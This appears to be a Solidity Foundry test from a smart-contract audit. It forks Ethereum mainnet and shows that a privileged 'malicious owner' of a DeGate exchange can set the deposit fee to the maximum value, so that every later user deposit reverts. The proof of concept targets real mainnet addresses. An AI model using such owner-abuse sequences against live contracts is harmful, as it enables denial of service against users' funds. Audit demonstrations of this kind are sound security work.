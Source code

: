 ```solidity
        mainnetFork = vm.createFork(MAINNET_RPC_URL);

        vm.selectFork(mainnetFork);
    }

    function testMalOwnerUpdatesDepositParams() public {
        // tx used for reference:
        // https://etherscan.io/tx/0x6d10b8ff970911c04c192f7882e3c704a3f82260f0e0caa15278ffce0b0f7cc2
        assertEq(vm.activeFork(), mainnetFork);

        vm.rollFork(18589360 - 1); // block before tx

        // users can deposit successfully
        address user = 0x57f814B20f13132F82b0a541A33f04Be04418C93; // user from tx

        address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48; // token from tx

        uint248 amount = 3000000000; // amount from tx

        vm.prank(user);

        IDeGate(exchange).deposit(user, user, usdc, (amount / 2), hex'00');

        // malicious owner updates Deposit Params so that a extremely large deposit fee is always required

        address maliciousOwner = 0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD;

        vm.prank(maliciousOwner);

        IDeGate(exchange).setDepositParams(0, 0, 0, type(uint256).max);

        // users can no longer deposit (Exchange::deposit DOS-ed)
        vm.prank(user);
        
        vm.expectRevert("INSUFFICIENT_DEPOSIT_FEE");
        IDeGate(exchange).deposit(user, user, usdc, (amount / 2), hex'00'); // tx reverts due to extremely large deposit fee on every deposit
    }
}

```